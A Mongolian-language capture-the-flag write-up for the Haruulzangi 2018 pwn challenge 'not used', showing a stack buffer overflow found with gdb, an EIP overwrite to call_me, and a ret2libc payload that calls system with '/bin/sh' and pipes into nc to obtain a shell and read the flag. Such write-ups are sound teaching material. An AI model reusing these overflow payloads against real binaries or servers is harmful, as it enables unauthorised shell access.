# Haruulzangi 2018 Round 1 : not used 

**Category:** Pwn
**Points:** 964
**Solves:** 5
**Description:**

>nc 218.100.84.106 9006 дээр хавсралт дээрх elf ажиллаж байна.
>
>link [notused](notused)
>
>link [notused.c](notused.c)
>
>--
>reamb


## Write-up

Өгөгдсөн `notused` binary файлыг ажилуулвал доорхи үр дүн гарж байв. 
```
[root@reamb home]# ./notused
[+] Feed me more!!!
hello
[+] zuv baildaa
[root@reamb home]#
```
 `notused.c` дээр тухайн програмын бүрэн код хуулагдсан байна. Source код дээрээс харвал дээрх мөрүүд нь хамгийн сонирхолтой хэсгүүд юм.
```
char * n0t_us3d = "/bin/bash";

int    call_me() {
        return system("/bin/date");
}


``` 
Энд хэзээ ч дуудагдахгүй `n0t_us3d` хувьсагчын утгыг `system()` дотор дуудаж чадвал бид shell ажиллуулж чадах юм. 

Юны түрүүнд binary файл дээр бүффер -ийн хэмжээг тооцолж үзье. үүнийг уламжиллалт аргаар ольё. 
```
[root@reamb home]# python -c 'print "A"*128' | ./notused
[+] Feed me more!!!
[+] zuv baildaa
Segmentation fault
```
128 байт аас эхлээд buffer дүүрч алдаа өгч байна. энийг souce code дээрээс  `char buf[128];` -ээр олж болно. Бид stack-г дүүргэн буцах Return address(EIP)  дээр call_me хаяг байршуулж ажилуулах гэж үзье. 

>StackFrame нь  Stack(128 bytes) + EBP(4 bytes) + return adrress(EIP)(4 bytes)  байдаг билээ. 

Үүнийг `gdb` дээр мөн шалгалт хийж тогтооё.

```
[root@reamb home]# python -c 'print "A"*128 + "BBBB"+"CCCC"+"DDDD"' > rea.txt
[root@reamb home]#
```
```

[root@reamb home]# gdb ./notused
GNU gdb (GDB) Red Hat Enterprise Linux 7.6.1-110.el7
Copyright (C) 2013 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-redhat-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>...
Reading symbols from /home/notused...done.
gdb-peda$ run < rea.txt
Starting program: /home/./notused < rea.txt
[+] Feed me more!!!

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x8d
EBX: 0xf7fca000 --> 0x1c6da8
ECX: 0xffffd584 ('A' <repeats 128 times>, "BBBBCCCCDDDD\n\206\004\b\024")
EDX: 0x100
ESI: 0x0
EDI: 0x0
EBP: 0x42424242 ('BBBB')
ESP: 0xffffd60c ("DDDD\n\206\004\b\024")
EIP: 0x43434343 ('CCCC')
EFLAGS: 0x10203 (CARRY parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x43434343
[------------------------------------stack-------------------------------------]
0000| 0xffffd60c ("DDDD\n\206\004\b\024")
0004| 0xffffd610 --> 0x804860a (<_fini+6>:      (bad))
0008| 0xffffd614 --> 0x14
0012| 0xffffd618 --> 0x0
0016| 0xffffd61c --> 0xf7e1d1b3 (<__libc_start_main+243>:       mov    DWORD PTR [esp],eax)
0020| 0xffffd620 --> 0x1
0024| 0xffffd624 --> 0xffffd6b4 --> 0xffffd7fb ("/home/./notused")
0028| 0xffffd628 --> 0xffffd6bc --> 0xffffd80b ("XDG_SESSION_ID=504")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x43434343 in ?? ()
Missing separate debuginfos, use: debuginfo-install glibc-2.17-222.el7.i686
```

Эндээс программ нь `0x43434343` буюу `CCCC` хаяг дээр кодыг ажилуулах гээд алдаа зааж байгаа нь харагдаж байна.  тэгвэл бид `CCCC` -н хаягыг call_me() ээр сольж бичиж үзье. call_me() ийн хаягыг эхэлж ольё.

```
[root@reamb home]# objdump -D ./notused |grep call_me
080484dd <call_me>:
```

фүнкцийн санах ой дээрх хаяг олдлоо. үүнийг stack руу бичих тул [little endian](https://chortle.ccsu.edu/AssemblyTutorial/Chapter-15/ass15_3.html) буюу урвуугаар бичнэ.
``` 
[root@rea home]# python -c 'print "A"*128 + "BBBB"+"\xdd\x84\x04\x08"' | ./notused
[+] Feed me more!!!
Mon Oct  8 17:13:01 +08 2018
```

бидний хүссэн call_me -г дуудаж чадлаа. Одоо харин `system(/bin/bash)` хэрхэн дуудах вэ? 

Үүнд бид [Return-to-Libc](https://www.exploit-db.com/docs/english/28553-linux-classic-return-to-libc-&-return-to-libc-chaining-tutorial.pdf) аргыг ашиглах юм.  Үндсэн санаа нь memory дээр байрших фүнкц утгуудыг дахин дуудаж өөрт ашигтай хувьлбарт оруулан ашиглана. 

|Top of stack        |    EBP    | EIP                         | Dummy return addr |    address of /bin/sh string |
|--------------------|-----------|-----------------------------|-------------------|------------------------------|
|AAAAAAAAAAAAAA      |   BBBB    |   addr of system function   |     DUMM          |   address of /bin/sh string  |


Эндээс бидэнд   `system`  фүнкцийн хаяг болон `/bin/sh` string ийн хаягууд хэрэг болож байна.

```
[root@reamb home]# objdump -D notused |grep system
08048390 <system@plt>:
 80484ea:       e8 a1 fe ff ff          call   8048390 <system@plt>
```
эндээс `system` фүнкцийн хаягийг олж авлаа. `/bin/sh` ийг харин энгийн debugger дээрээс харж болно. 


![notused.png](notused.png)



эндээс нийлүүлээд бичвэл. 
```
[root@reamb home]# python -c 'print "A"*128 + "BBBB"+"\x90\x83\x04\x08" + "DUMM"+ "\x24\x86\x04\x08"' | ./notused
[+] Feed me more!!!
Segmentation fault
```

ажиллахгүй байгаа мэт байна тэхдээ цаанаа `system(/bin/sh)` ажиллаж байгаа gdb дээрээс харж болно. Энд `system(/bin/sh)` ажиллангуута тэр доороо хаагдаж байгаа юм. энийг аргалах амархан арга нь bash дээр `command; cat` хэмээн аргалах боломжтой юм. 



```
[root@reamb home]# (python -c 'print "A"*128 + "BBBB"+"\x90\x83\x04\x08" + "DUMM"+ "\x24\x86\x04\x08"'; cat )| ./notused
[+] Feed me more!!!
date
Mon Oct  8 18:15:22 +08 2018
whoami
root

```
Hurray! ажиллаж байна. 

одоо бид flag авахын тулд сервер рүү хүсэлтийг явуулна. 

```
[root@reamb home]# (python -c 'print "A"*128 + "BBBB"+"\x90\x83\x04\x08" + "DUMM"+ "\x24\x86\x04\x08"'; cat )| nc 218.100.84.106 9006
[+] Feed me more!!!
ls
chall
flag
pow.py
pwn
cat flag
HZ{r3t2l1b_w1ns!!}
```

flag `HZ{r3t2l1b_w1ns!!}`



## Other write-ups and resources

* none yet
